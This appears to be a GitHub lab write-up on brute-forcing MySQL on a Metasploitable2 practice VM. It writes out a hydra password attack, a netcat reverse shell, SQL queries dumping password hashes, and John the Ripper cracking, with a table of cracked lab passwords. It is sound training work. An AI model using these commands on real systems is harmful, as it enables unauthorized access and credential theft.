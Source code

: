 # Lab08 - MySQL Brute Force & Database Enumeration

###  Description

In this lab, we exploited a weak MySQL configuration on the Metasploitable2 machine. By brute-forcing the MySQL `root` password using `hydra`, we gained access to the database server. Then, we discovered and enumerated sensitive user information, dumped password hashes, and cracked them using John the Ripper.

---

###  Target System

* **IP Address:** `192.168.56.103`
* **Service:** MySQL
* **Port:** `3306/tcp`
* **Version:** MySQL 5.0.51a-3ubuntu5
* **OS:** Ubuntu (Metasploitable2 VM)

---

###  Exploitation Steps

#### 1. Nmap Version Detection

```bash
nmap -sV -p 3306 192.168.56.103
```

> Confirmed MySQL is running on port 3306 with version 5.0.51a.

---

#### 2. Brute Force MySQL Login with Hydra

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.56.103
```

> `root` password successfully found using `hydra` brute force.

---

#### 3. Socket-based MySQL Access via Reverse Shell

* Established a **reverse shell** from `Metasploitable2` to `Kali`:

```bash
# On Kali (listener)
nc -lnvp 4444

# On Metasploitable2
nc <kali_ip> 4444 -e /bin/bash
```

* Accessed MySQL via local socket:

```bash
mysql -u root
```

---

#### 4. Database Discovery

```sql
SHOW DATABASES;
USE mysql;
SHOW TABLES;
SELECT User, Host, Password FROM user;
```

> Retrieved users and hashed passwords from the `user` table in the MySQL internal database.

---

#### 5. User Credential Dumping from DVWA

```sql
USE dvwa;
DESCRIBE users;
SELECT user, password FROM users;
```

> Extracted application-level credentials from the `dvwa.users` table.

---

#### 6. Hash Extraction and Cracking with John

```bash
nano mysql_hashes.txt  # Added password hashes manually

john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 mysql_hashes.txt
```

> Successfully cracked passwords like:

* `abc123`
* `letmein`
* `charley`

---

###  Sample User Table (DVWA)

| Username | Hash                             | Password (cracked) |
| -------- | -------------------------------- | ------------------ |
| admin    | 5f4dcc3b5aa765d61d8327deb882cf99 | password           |
| gordonb  | e99a18c428cb38d5f260853678922e03 | abc123             |
| 1337     | 8d3533d75ae2c3966d7e0d4fcc69216b | letmein            |
| pablo    | 0d107d09f5bbe40cade3de5c71e9e9b7 | charley            |

---

###  What I Learned

* How to brute-force MySQL logins using `hydra`
* Why socket connections are key in outdated services
* MySQL database enumeration methodology
* Hash extraction from SQL and cracking with `john`
* Privilege insights from `/etc/passwd` and group membership post-exploitation

---

###  Screenshots

![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab08/Screen%20Shot%202025-06-09%20at%2003.48.07.png)


![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab08/Screen%20Shot%202025-06-09%20at%2004.04.55.png)


![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab08/Screen%20Shot%202025-06-09%20at%2021.04.19.png)


![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab08/Screen%20Shot%202025-06-09%20at%2022.14.36.png)


![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab08/Screen%20Shot%202025-06-09%20at%2022.15.47.png)


![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab08/Screen%20Shot%202025-06-09%20at%2023.33.34.png)


![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab08/Screen%20Shot%202025-06-09%20at%2023.37.48.png)


![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab08/Screen%20Shot%202025-06-10%20at%2001.47.33.png)


![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab08/Screen%20Shot%202025-06-10%20at%2001.50.17.png)



---

### 💡 Notes

* The version of MySQL used did not enforce SSL, allowing cleartext socket connection.
* Weak passwords and outdated hash algorithm (MD5) made cracking trivial.
* Hashcat was attempted but caused performance issues.

